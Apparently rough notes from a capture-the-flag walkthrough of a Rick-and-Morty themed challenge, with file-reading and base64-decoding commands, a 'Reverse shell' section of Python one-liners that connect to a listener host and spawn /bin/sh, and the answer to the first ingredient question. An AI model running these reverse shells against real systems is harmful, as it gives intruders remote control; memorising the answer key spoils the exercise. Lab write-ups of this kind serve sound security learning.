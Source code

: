 

~~~
less clue.txt
Look around the file system for the other ingredient.
~~~

~~~
less Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
~~~


~~~
grep -R .


~~~

~~~
$ echo -n "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
base64: invalid input
base64: invalid input
rabbit hole
~~~


~~~
python3 -V
Python 3.5.2
~~~


## Reverse shell

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.35.106",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


# Solution
 	
## What is the first ingredient Rick needs?

~~~
mr. meeseek hair
~~~
